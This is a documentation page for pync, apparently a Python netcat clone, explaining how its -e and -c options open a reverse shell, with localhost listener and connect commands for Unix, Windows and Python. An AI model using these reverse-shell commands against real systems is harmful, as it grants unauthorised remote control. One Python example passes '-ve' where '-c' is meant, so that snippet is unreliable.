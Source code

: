 ========================
[-e]xecuting [-c]ommands
========================

.. warning::
   | Please BE CAREFUL with this functionality as it could expose your system to attackers.
   | Also, please DO NOT use this functionality for evil purposes.

The `-e <https://pync.readthedocs.io/en/latest/options/execute.html>`_
and `-c <https://pync.readthedocs.io/en/latest/options/execute.html>`_
options both execute a process and connect the process' stdin/stdout/stderr
to the network socket.

The difference between the two is that
`-e <https://pync.readthedocs.io/en/latest/options/execute.html>`_
takes a single filename to execute whereas
`-c <https://pync.readthedocs.io/en/latest/options/execute.html>`_
can process command arguments and other shell features.

A Simple Reverse Shell (-e)
===========================

1. Create a local test server to catch the reverse shell:

.. tab:: Unix

   .. code-block:: sh

      pync -lv localhost 8000

.. tab:: Windows

   .. code-block:: sh

      py -m pync -lv localhost 8000

.. tab:: Python

   .. code-block:: python

      from pync import pync
      pync('-lv localhost 8000')

2. Connect to the server and use the `-e <https://pync.readthedocs.io/en/latest/options/execute.html>`_
   option to execute a shell once the connection has been established.

.. tab:: Unix

   .. code-block:: sh

      pync -ve /bin/bash localhost 8000

.. tab:: Windows

   .. code-block:: sh

      py -m pync -ve cmd localhost 8000

.. tab:: Python

   .. code-block:: python

      import platform
      from pync import pync

      cmd = '/bin/bash'
      if platform.system() == 'Windows':
          cmd = 'cmd'

      pync('-ve {} localhost 8000'.format(cmd))

A Simple Reverse Shell (-c)
===========================

The `-c <https://pync.readthedocs.io/en/latest/options/execute.html>`_
option lets us pass arguments to give us a more customized shell.

1. Create a local test server to catch the reverse shell:

.. tab:: Unix

   .. code-block:: sh

      pync -lv localhost 8000

.. tab:: Windows

   .. code-block:: sh

      py -m pync -lv localhost 8000

.. tab:: Python

   .. code-block:: python

      from pync import pync
      pync('-lv localhost 8000')

2. Connect to the server and use the `-c <https://pync.readthedocs.io/en/latest/options/execute.html>`_
   option to execute a shell once the connection has been established.

.. tab:: Unix

   .. code-block:: sh

      pync -vc "PS1='$ ' sh -i" localhost 8000

.. tab:: Windows

   .. code-block:: sh

      py -m pync -vc "cmd /q" localhost 8000

.. tab:: Python

   .. code-block:: python

      import platform
      from pync import pync

      cmd = "PS1='$ ' sh -i"
      if platform.system() == 'Windows':
          cmd = 'cmd /q'

      pync('-ve {} localhost 8000'.format(cmd))

:SEE ALSO:

* :doc:`../examples/remote-command-exec`

